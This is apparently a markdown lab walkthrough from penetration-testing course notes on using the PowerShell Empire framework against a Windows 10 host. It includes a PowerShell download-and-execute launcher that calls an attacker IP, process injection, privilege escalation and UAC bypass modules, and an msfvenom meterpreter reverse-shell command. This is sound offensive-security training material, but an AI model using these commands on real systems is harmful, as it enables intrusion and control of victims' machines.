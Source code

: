 # Content

- [Content](#content)
  - [Installation, Setup, and Usage](#installation-setup-and-usage)
    - [PowerShell Empire Syntax](#powershell-empire-syntax)
    - [Listeners and Stagers](#listeners-and-stagers)
    - [The Empire Agent](#the-empire-agent)
  - [PowerShell Modules](#powershell-modules)
    - [Situational Awareness](#situational-awareness)
    - [Credentials and Privilege Escalation](#credentials-and-privilege-escalation)
  - [Switching Between Empire and Metasploit](#switching-between-empire-and-metasploit)

  
## Installation, Setup, and Usage

- Because in Kali Linux, PowerShell is already installed, we can use it directly.
  ```bash
  sudo powershell-empire server
  sudo powershell-empire client
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/1.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/2.png)

### PowerShell Empire Syntax

- We can use help to list various commands available within Empire, including listeners, stagers, agents, and modules.
  ![Picture](../23.%20PowerShell%20Empire/Image/3.png)

### Listeners and Stagers

- We will first enter the ``` listeners `````` context, then use ``` uselistener http ```.
  ![Picture](../23.%20PowerShell%20Empire/Image/4.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/5.png)
- Now we change port to 80. 
  ```bash
  set Port 80
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/6.png)
- Once the options are set, we can start the listener with the ``` execute ``` command and return to the main listener menu with ``` back ```.
  ![Picture](../23.%20PowerShell%20Empire/Image/7.png)
- Empire supports stagers for Windows, Linux, and OS X. 
- Windows stagers include support for standard DLLs, HTLM Applications, Microsoft Office macros, and more exotic stagers such as ``` windows/ducky ``` for use with the USB Rubber Ducky.
- To get an idea of how this works, let’s try out the windows/launcher_bat stager. After selecting the stager, we can review the options with the ``` info ``` command.
  ```bash
  usestager windows/launcher_bat
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/8.png)
- We can configure the Listener parameter with the ``` set ``` command followed by the name of the listener we just created. Finally, we’ll create the stager with ``` execute ```
  ![Picture](../23.%20PowerShell%20Empire/Image/9.png)
- To better understand the stager we just created, let’s take a look at the partial content of the generated ``` launcher.bat ``` file.
  ![Picture](../23.%20PowerShell%20Empire/Image/10.png)

### The Empire Agent

- Now that we have our listener running and our stager prepared, we will need to deploy an agent on the victim. An agent is simply the final payload retrieved by the stager, and it allows us to execute commands and interact with the system. The stager (in this case the .bat file) deletes itself and exits once it finishes execution.
- Once the agent is operational on the target, it will set up an AES-encrypted communication channel with the listener using the data portion of the HTTP GET and POST requests.
- We will first copy the launcher.bat script to the Windows 10 workstation and execute it from a command prompt.
- Because the command in file .bat just run in Linux, so if we want to run it in windows, we need to change the content of file .bat.
  ```bash
  @echo off
  powershell.exe -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iex ((New-Object Net.WebClient).DownloadString('http://192.168.50.156:80/download/powershell/Om1hdHRpZmVzdGF0aW9uIGV0dw=='))"
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/11.png)
- After successful execution of the launcher script, an initial agent call will appear in our Empire session.
  ![Picture](../23.%20PowerShell%20Empire/Image/12.png)
- Next, we can use the agents command to display all active agents.
  ![Picture](../23.%20PowerShell%20Empire/Image/13.png)
- Now, we can use the interact command followed by the agent name to interact with our agent and execute commands.
- In this case, we will run sysinfo to retrieve information about the compromised host.
  ![Picture](../23.%20PowerShell%20Empire/Image/14.png)
- As with a meterpreter payload, Empire allows us to migrate our payload into a different process. 
- We can do that by first using ps to view all running processes. Once we choose our target 
process, we’ll migrate the payload with psinject command, including the name of the listener and the process id as our command arguments.
  ![Picture](../23.%20PowerShell%20Empire/Image/15.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/16.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/17.png)
- It is important to note that, unlike the migration feature of the meterpreter payload, once the process migration is completed, the original Empire agent remains active and we must manually switch to the newly created agent.
  ![Picture](../23.%20PowerShell%20Empire/Image/18.png)

## PowerShell Modules

- The power of Empire agents lies in the various modules offered by the framework. We can list all available modules by running usemodule.
  ![Picture](../23.%20PowerShell%20Empire/Image/19.png)

### Situational Awareness

- To begin, let’s explore the situational_awareness category. While there are many methods and 
commands for performing network enumeration, the primary focus of this category is on local 
client and Active Directory enumeration.
- For example, we can use the ``` get_user ``` module and then issue the ``` info ``` command to display information about the module.
  ```bash
  usemodule powershell/situational_awareness/network/powerview/get_user
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/20.png)
- We could set any number of filtering options or ``` execute ``` the module.
  ![Picture](../23.%20PowerShell%20Empire/Image/21.png)

### Credentials and Privilege Escalation

- The privesc category contains privilege escalation modules. One of the more interesting modules in this group is ``` powerup/allchecks ```.
- It uses several techniques based on misconfigurations such as unquoted service paths, improper permissions on service executables, and much more.
  ```bash
  usemodule powershell/privesc/powerup/allchecks
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/22.png)
- We can execute the module and review the results.
  ![Picture](../23.%20PowerShell%20Empire/Image/23.png)
- The bypassuac_fodhelper module is quite useful if we have access to a local administrator account. Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent.
  ```bash
  usemodule powershell/privesc/bypassuac_fodhelper
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/24.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/25.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/26.png)

## Switching Between Empire and Metasploit

- If a PowerShell Empire agent is active on the host, we can use msfvenom to generate a 
meterpreter reverse shell as an executable.
  ```bash
  msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.50.156 LPORT=7777 -f exe -o met.exe
  ```
  ![Picture](../23.%20PowerShell%20Empire/Image/27.png)
- We then set up a Metasploit listener using the multi/handler module and the previously-chosen settings.
  ![Picture](../23.%20PowerShell%20Empire/Image/28.png)
- Now we switch back to our PowerShell Empire shell and upload the executable.
  ![Picture](../23.%20PowerShell%20Empire/Image/29.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/30.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/31.png)
- After uploading the executable, we execute it in windows 10.
- With the executable running, we’ll switch back to our meterpreter listener and watch the incoming shell.
  ![Picture](../23.%20PowerShell%20Empire/Image/32.png)
- Reversing this process to connect to an Empire agent from an existing meterpreter session is also simple. 
- We can create a launcher (.bat format) and use meterpreter to upload and execute it. 
- First we’ll create the launcher using Empire.
  ![Picture](../23.%20PowerShell%20Empire/Image/33.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/34.png)
- Then we can check the listener in Empire.
  ![Picture](../23.%20PowerShell%20Empire/Image/35.png)
  ![Picture](../23.%20PowerShell%20Empire/Image/36.png)